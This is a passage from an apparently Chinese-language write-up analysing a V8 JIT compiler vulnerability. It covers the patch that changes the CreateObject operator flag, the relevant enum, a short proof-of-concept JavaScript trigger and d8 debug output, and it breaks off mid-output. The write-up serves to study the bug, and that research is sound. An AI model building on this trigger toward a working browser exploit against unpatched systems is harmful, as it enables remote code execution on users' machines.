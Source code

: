 ```
```

可以看到包含这一漏洞的最后一个commit是`568979f4d891bafec875fab20f608ff9392f4f29`，使用`git checkout`命令切换到这一commit。

### 漏洞分析

通过仔细分析漏洞的patch，可以发现漏洞存在于`src/compiler/js-operator.cc`中。在这里，代码定义了许多标识，实际上只进行了一处修改，就是将`CreateObject`的标志从`kNoWrite`变成`kNoProperties`。

```
-  V(CreateObject, Operator::kNoWrite, 1, 1)                            \  
+  V(CreateObject, Operator::kNoProperties, 1, 1)                       \
```

这些标志位的定义在`src`中，是一个枚举类。

```
enum Property {
    kNoProperties = 0,
    kCommutative = 1 &lt;&lt; 0,  // OP(a, b) == OP(b, a) for all inputs.
    kAssociative = 1 &lt;&lt; 1,  // OP(a, OP(b,c)) == OP(OP(a,b), c) for all inputs.
    kIdempotent = 1 &lt;&lt; 2,   // OP(a); OP(a) == OP(a).
    kNoRead = 1 &lt;&lt; 3,       // Has no scheduling dependency on Effects
    kNoWrite = 1 &lt;&lt; 4,      // Does not modify any Effects and thereby
                            // create new scheduling dependencies.
    kNoThrow = 1 &lt;&lt; 5,      // Can never generate an exception.
    kNoDeopt = 1 &lt;&lt; 6,      // Can never generate an eager deoptimization exit.
    kFoldable = kNoRead | kNoWrite,
    kKontrol = kNoDeopt | kFoldable | kNoThrow,
    kEliminatable = kNoDeopt | kNoWrite | kNoThrow,
    kPure = kNoDeopt | kNoRead | kNoWrite | kNoThrow | kIdempotent
  };
```

可以看出`kNoWrite`表示一个操作并不产生任何side effects，很容易猜到，`CreateObject`应当是产生了一定的side effect。通过调试可以发现在`Map::CopyNormalized`函数中，使用`set_is_dictionary_map(true)`将新生成的map设定为`dictionary`模式。修改commit中给出的poc做一个调试和验证。

```
function f(o) {
  let a = o.y;
  Object.create(o);
  return o.x + a;
}

let obj = {x: 42, y: 21};
%DebugPrint(obj);
f(obj);
%DebugPrint(obj);
```

在执行f前后输出obj信息，执行输出结果如下。

```
$ ./d8 --allow-natives-syntax poc.js  
DebugPrint: 0x1909d7a8e599: [JS_OBJECT_TYPE]  
- map: 0x0a49d638c9d1 &lt;Map(HOLEY_ELEMENTS)&gt; [FastProperties]  
- prototype: 0x1c4b472046d9 &lt;Object map = 0xa49d63822f1&gt;  
- elements: 0x20bfb0802cf1 &lt;FixedArray[0]&gt; [HOLEY_ELEMENTS]  
- properties: 0x20bfb0802cf1 &lt;FixedArray[0]&gt; {  
   #x: 42 (data field 0)  
   #y: 21 (data field 1)  
}  
0xa49d638c9d1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 40  
- inobject properties: 2  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
```